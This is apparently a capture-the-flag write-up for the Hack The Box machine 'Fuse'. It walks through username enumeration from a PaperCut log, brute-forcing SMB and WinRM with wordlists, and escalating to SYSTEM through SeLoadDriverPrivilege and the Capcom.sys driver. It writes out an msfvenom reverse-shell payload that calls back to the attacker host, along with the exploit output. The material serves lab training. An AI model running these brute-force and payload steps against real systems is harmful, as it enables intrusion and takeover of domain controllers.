








# Fuse



Fuse is a medium box which involved enumerating a PaperCut service to find usernames, bruteforcing these usernames against SMB using a password list generated using CeWl. Then resetting the password and using rpcclient to find more users and a password. Then bruteforcing evil-winrm to login and get the user flag. Then abusing the SeLoadDriverPrivilege to get SYSTEM.

# Overview
- Enumeration of the target
- Discovering usernames on the PaperCut site
- Brute forcing smb login with CeWl wordlist
- Changing password and finding more users and a password with rpcclient
- Brute forcing WinRM to login as svc-print
- user.txt
- Abusing SeLoadDriverPrivilege to get SYSTEM
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~$ nmap -sC -sV -Pn 10.10.10.193
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.193
Host is up (0.030s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/30%Time=5F9C3711%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m45s, deviation: 4h02m29s, median: 17m44s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 306.99 seconds
```

We can see from all the open ports that it is a domain controller, let's start by looking at the website.

## PaperCut



We find a PaperCut print logger, let's take a look around and see what we find.



If we click on each date, we can see the username that printed each document. If we click on each date we can create a list of usernames: `pmerton`, `tlavel`, `sthompson`, `bhult` and `administrator`.

Now we need to create a wordlist to use to bruteforce with these usernames to see if we can login to any service. To do this we can use CeWl. First we need to add `fuse.fabricorp.local` to our `/etc/hosts` file, then we can run CeWl.

```bash
finlay@kali:~$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w passwords.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
finlay@kali:~$ cat passwords.txt 
Print
2020
PaperCut
Logs
MFT01
...
```

# Exploitation

## SMB

Now that we have a list of usernames and passwords, we can try metasploit's smb login module.

```bash
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.193
RHOSTS => 10.10.10.193
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

Now we have the SMB password for `tlavel` and `bhult`: `Fabricorp01`

If we try logging in to the SMB shares as `tlavel` we see this message:

```bash
finlay@kali:~/htb/fuse$ smbclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

So we can reset the password with `smbpasswd` (I just changed it to `Fabricorp02`):

```bash
finlay@kali:~/htb/fuse$ smbpasswd -r 10.10.10.193 -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```

## rpcclient

Now we can login with rpcclient using this new password (you have to login quickly after changing the password because it is reset often)

```bash
finlay@kali:~/htb/fuse$ sudo rpcclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
rpcclient $>
```

We can run `enumdomusers` to get more usernames to add to our users list

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]                   
user:[DefaultAccount] rid:[0x1f7]               
user:[svc-print] rid:[0x450]                    
user:[bnielson] rid:[0x451]              
user:[sthompson] rid:[0x641]          
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]                            
user:[astein] rid:[0x1db2]                                                          
user:[dmuir] rid:[0x1db3]
```

We can also run `enumprinters` to get a password

```bash
rpcclient $> enumprinters
        flags:[0x800000]                 
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]                      
        comment:[]
```

## WinRM

Now we can try using metasploit's win-rm module to see if we can login with any users using this password.

```bash
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD $fab@s3Rv1ce$1                                                                                                                                                                                                                                                    
PASSWORD => $fab@s3Rv1ce$1                                                                                                                                                                                                                                                                                                 
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193                                                                                                                                                                                                                                                        
RHOSTS => 10.10.10.193                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\pmerton:$fab@s3Rv1ce$1 (Incorrect: )
...
[+] 10.10.10.193:5985 - Login Successful: WORKSTATION\svc-print:$fab@s3Rv1ce$1
...
```

Now we can login as `svc-print` using evil-winrm.



## User.txt

And we find the user flag in C:\Users\svc-print\Desktop



# Privilege Escalation

## Collecting and uploading the files

If we do `whoami /priv`, we see that we have the `SeLoadDriverPrivilege`



I found [this](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) article that explains how to abuse this privilege to get SYSTEM.

To abuse this privilege, we need to gather these 3 files from github:

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

[ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)

[EoPLoadDriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/)

Then we need to compile the `.cpp` files, I used Visual Studio Code on Windows. Finally we need to create our reverse shell payload, I used `msfvenom`.

```bash
finlay@kali:~/htb/fuse$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

Now that we have these four files, we need to upload them to the target. I created a temp folder in the root of the directory.

This is what you should have in the folder:

```powershell
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/31/2020   7:16 AM          10576 Capcom.sys
-a----       10/31/2020   7:14 AM          15360 EOPLOADDRIVER.exe
-a----       10/31/2020   7:14 AM         275968 ExploitCapcom.exe
-a----       10/31/2020   7:14 AM          73802 shell.exe
```

## Running the exploit

First, we need to load the driver:

```powershell
*Evil-WinRM* PS C:\temp> .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

Second, we need to setup a listener on our local machine:

```bash
finlay@kali:~/htb/fuse$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, run the ExploitCapcom program:

```powershell
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001C17CEE0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

And we see that we got a SYSTEM shell:



## Root.txt

And we find the root flag in C:\Users\Administrator\Desktop

